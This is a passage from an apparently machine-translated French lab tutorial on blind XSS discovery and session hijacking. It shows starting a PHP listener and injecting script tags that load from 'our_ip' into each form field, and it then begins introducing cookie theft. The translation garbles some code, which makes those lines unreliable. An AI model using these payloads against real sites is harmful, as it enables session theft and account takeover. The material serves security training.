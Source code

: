 Avant de commencer à envoyer des charges utiles, nous devons démarrer un auditeur sur notre machine virtuelle, en utilisant `NetCat` ou« Php »comme indiqué dans une section précédente:

```
dsgsec @ htb [/ htb] $ mkdir / tmp / tmpServer
dsgsec @ htb [/ htb] $ cd / tmp / tmpServer
dsgsec @ htb [/ htb] $ sudo php -s 0.0.0.0:80
PHP 7.4.15 Server de développement (http://0.0.0.0:80) a commencé
```

Maintenant, nous pouvons commencer à tester ces charges utiles une par une en utilisant l'un d'eux pour tous les champs d'entrée et en ajoutant le nom du champ après notre IP, comme mentionné précédemment, comme:

Code: HTML

```
<script src = http: // our_ip / fullname> </ script> # Cela va à l'intérieur du champ de nom complet
<script src = http: // our_ip / nom d'utilisateur> </ script> # Cela va à l'intérieur du champ de nom d'utilisateur
...COUPER...
```

Astuce: nous remarquerons que l'e-mail doit correspondre à un format de messagerie, même si nous essayons de manipuler les paramètres de demande HTTP, car il semble être validé à la fois sur le front-end et le back-end. Par conséquent, le champ de messagerie n'est pas vulnérable et nous pouvons le tester. De même, nous pouvons ignorer le champ de mot de passe, car les mots de passe sont généralement hachés et ne sont généralement pas affichés dans ClearText. Cela nous aide à réduire le nombre de champs d'entrée potentiellement vulnérables que nous devons tester.

Une fois que nous avons soumis le formulaire, nous attendons quelques secondes et vérifions notre terminal pour voir si quelque chose appelé notre serveur. Si rien n'appelle notre serveur, nous pouvons passer à la charge utile suivante, etc. Une fois que nous recevons un appel à notre serveur, nous devons noter la dernière charge utile XSS que nous avons utilisée comme charge utile de travail et noter le nom du champ de saisie qui a appelé notre serveur comme champ de saisie vulnérable.

«Essayez de tester divers charges utiles de Script XSS à distance avec les champs d'entrée restants, et voyez lequel d'entre eux envoie une demande HTTP pour trouver une charge utile de travail».

* * * * *

Détournement de session
-----------------

Une fois que nous avons trouvé une charge utile XSS fonctionnelle et que nous avons identifié le champ de saisie vulnérable, nous pouvons passer à l'exploitation XSS et effectuer une attaque de détournement de session.

Une attaque de détournement de session est très similaire à l'attaque de phishing que nous avons effectuée dans la section précédente. Il nécessite une charge utile JavaScript pour nous envoyer les données requises et un script PHP hébergé sur notre serveur pour saisir et analyser les données transmises.

Il y a plusieurs charges utiles JavaScript que nous pouvons utiliser pour saisir le cookie de session et nous l'envoyer, comme le montrent [PayloadsallThethings](https://github.com/swisskyrepo/payloadsallthes/tree/master/xss%20Injection#exploit-code-ou-POC):
